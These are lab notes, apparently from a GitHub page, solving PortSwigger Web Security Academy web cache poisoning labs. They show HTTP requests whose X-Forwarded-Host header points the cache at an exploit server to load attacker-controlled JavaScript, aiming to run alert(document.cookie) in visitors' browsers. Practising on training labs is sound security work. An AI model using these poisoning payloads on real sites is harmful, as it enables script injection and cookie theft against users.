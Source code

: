 ```
GET / HTTP/1.1
...
X-Forwarded-Host: exploit-ac261fcb1e3ee5b4c042011801e70028.web-security-academy.net
```

### Lab: Combining web cache poisoning vulnerabilities

This lab is susceptible to web cache poisoning, but only if you construct a complex exploit chain.

A user visits the home page roughly once a minute and their language is set to English. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

GET / HTTP/1.1 -> Burp Extension -> Param Miner -> Guess params -> Guess headers

Issue Activity -> Web cache poisoning -> **X-Forwarded-Host** and **X-Original-URL** headers

```
GET / HTTP/1.1

In the response:
<script>
	initTranslations('//' + data.host + '/resources/json/translations.json');
</script>

GET /?cb=123 HTTP/1.1
...
X-Forwarded-Host: test

In the response:
<script>
	data = {
		"host":"test",
		"path":"/",
	}
</script>
```

```
GET /?cb=123 HTTP/1.1
...
X-Forwarded-Host: exploit-ac711f901e4b183bc0052db20125002b.web-security-academy.net
```

**Exploit Server -> Access Log**

`"GET /resources/json/translations.json HTTP/1.1" 404`

```
GET /resources/json/translations.json HTTP/1.1

{
    "en": {
        "name": "English"
    },
    "es": {
        "name": "español",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "Ver detailes",
            "Description:": "Descripción:"
        }
    }, ...
```
